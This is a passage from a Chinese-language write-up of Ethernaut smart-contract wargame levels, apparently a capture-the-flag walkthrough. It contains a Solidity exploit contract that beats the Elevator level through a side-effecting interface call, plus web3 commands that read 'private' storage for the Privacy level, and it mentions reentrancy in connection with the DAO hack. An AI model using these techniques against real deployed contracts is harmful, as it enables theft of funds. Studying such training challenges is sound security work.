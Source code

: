 ```solidity
}
```
value=0.5 ether，填入关卡合约instance地址构造MyContract，然后调用exploit即可（注意要调大gas limit），调用dtor回收ETH。

这个漏洞的利用曾使得全网14%的以太坊被盗（被称为DAO Hack），社区决定以太坊分叉出ETH链，也就是ETH是回滚至被黑之前的链，ETC则是黑客拥有以太坊的原始链，由于矿工利益问题存活至今

# level11 Elevator

仔细阅读题目，可以想到这题的通关条件是`Elevator.top == true`。突破点在于interface里的view/constant/pure修饰符仅在于Solidity语言层面起作用，而实际EVM层面跨合约调用时并没有检查。于是，实际上isLastFloor是可以有副作用的。我们可以通过成员变量区分两次isLastFloor调用，第一次返回false第二次返回true即可。

```solidity
pragma solidity ^0.4.18;

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public;
}

contract MyBuilding {
  bool private isArrived = false;
  Elevator c;
  
  function MyBuilding(address _c) {
      c = Elevator(_c);
  }
  
  function isLastFloor(uint) public returns (bool) {
      if (!isArrived) {
          isArrived = true;
          return false;
      }
      return true;
  }
  
  function exploit() public {
      c.goTo(777);
  }
}

```

# level12 Privacy
同上面某题，只要调用eth.getStorageAt就可以了，注意ethereum是大端序，比如bytes4(msg.data)就是被调用方法签名的哈希。

```js
> web3.eth.getStorageAt("0x443ba829e54bc353a774e19cd0f4c463bbd70292", 3, console.log);
< null "0x855225da826cf02c945e41f445f2c7491d28ecdd3e99e12abca7629d8b49ca9f"
> "0x855225da826cf02c945e41f445f2c7491d28ecdd3e99e12abca7629d8b49ca9f".substr(0,34)
< "0x855225da826cf02c945e41f445f2c749"
```
